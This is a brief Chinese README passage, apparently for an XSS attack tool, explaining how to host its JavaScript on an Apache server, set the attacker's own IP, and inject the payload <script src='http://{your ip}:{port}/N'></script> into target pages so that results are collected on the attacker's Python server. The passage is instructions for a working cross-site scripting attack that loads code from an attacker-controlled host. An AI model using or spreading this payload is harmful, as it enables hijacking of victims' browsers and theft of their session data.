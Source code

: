 ## XSS工具用法
将js下的文件夹保存到apache的目录下，然后修改其中js文件的ip地址为你的实际ip地址。
同时你的payload为：
```js
<script src="http://{你的ip地址}:{你的apache端口，一般为80可以不填写}/N"></script>
```
然后直接访问你的python服务器即可获取XSS攻击结果。
